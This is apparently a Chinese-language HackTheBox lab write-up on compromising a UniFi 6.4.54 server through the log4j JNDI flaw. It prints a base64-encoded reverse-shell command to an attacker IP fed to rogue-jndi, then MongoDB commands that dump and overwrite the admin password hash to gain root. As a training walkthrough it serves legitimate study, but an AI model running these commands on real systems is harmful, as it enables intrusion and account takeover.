



# 7x15HTB系列——[Unified]UniFiCMS log4j远程代码执行

## 一、信息收集

1. 端口扫描

   

   

2. 发现开放22、6789、8080、8443端口，其中8080端口通过http-proxy代理跳转到8443端口，访问一下

   

3. 跳转到8443端口，界面是一个叫做UniFi的CMS登陆界面，版本6.4.54，界面中发现一个熟悉的字眼“Remember me”，感觉可能存在java的漏洞，搜索一下该版本CMS的历史漏洞信息

   

4. UniFi 6.4.54存在log4j远程代码执行漏洞

## 二、漏洞验证

1. 打开BurpSuite抓包，利用jndi构造请求代码，利用ldap协议对kali发起请求，同时开启tcpdump监听本地389端口

   

2. 可以看到回显数据包中显示了请求的执行信息，说明ldap请求代码被执行了，再看一下tcpdump对389端口的监听情况，发现收到了目标主机的ldap请求报文，验证了确实存在log4j远程代码执行漏洞

   


## 三、getshell

1. 利用rogue-jndi对log4j进行利用，需要先配置

   - 先安装maven

     ```shell
     sudo apt -y install maven
     ```

   - 然后执行以下命令，利用maven编译jar

     ```shell
     git clone https://github.com/veracode-research/rogue-jndi
     cd rogue-jndi
     mvn package
     ```

   - 当出现BUILD SUCCESS时，编译就成功了

     

2. 看一下rogue-jndi的参数

   - -c，后面接要执行的命令
   - -n，jdni服务器地址，这里是本机IP


3. 构造一条反弹shell的命令，为防止数据传输过程中shell丢失，对命令进行base64编码

   ```shell
   echo 'bash -c bash -i >&/dev/tcp/10.10.16.9/4444 0>&1' | base64
   ```

   

6. 利用rogue-jndi执行编码后的命令，启动jndi

   ```shell
   java -jar RogueJndi-1.1.jar -c "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuOS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" -n "10.10.16.9"
   ```

   

4. nc开启监听，然后回到BurpSuite，重新请求ldap

   

5. 查看nc，成功获取shell

   


## 四、权限提升

1. 转换交互式shell

   ```shell
   script /dev/null -c bash
   ```

2. 查看当前进程，发现运行了一个mongod进程，说明使用了mongo数据库

   

3. 查看mongo数据库进程信息，服务进程运行在127.0.0.1的27117端口上

   

4. mongo的默认数据库名是ace，使用系统命令查看mongo的用户信息

   ```shell
   mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
   ```

   

5. 成功获取到管理员密码，但是密码强度很高，而且是sha-512加密的，没有解密出来，可以修改密码为弱类型，先得到一个sha512加密的弱密码，可以使用kali自带工具mkpasswd

   

   

6. 使用mongo系统命令修改密码为123456

    ```shell
    mongo --port 27117 ace --eval 'db.admin.update({"_id":
    ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$LMSA6JPqg7IVn6Hg$WprGGu8B61mCJzl.048/x/1xne5XH.6jIaFORir2y.5VU9mJyWAURIzfcRs7zwXTQe08UiKeHQ4HPOll20spf0"}})'
    ```

    

7. 使用修改的管理员账号密码登录UniFi后台

    

8. 在后台设置中找到了ssh的root用户的密码，而且可以查看

    

9. 使用ssh连接，成功获取root权限

    
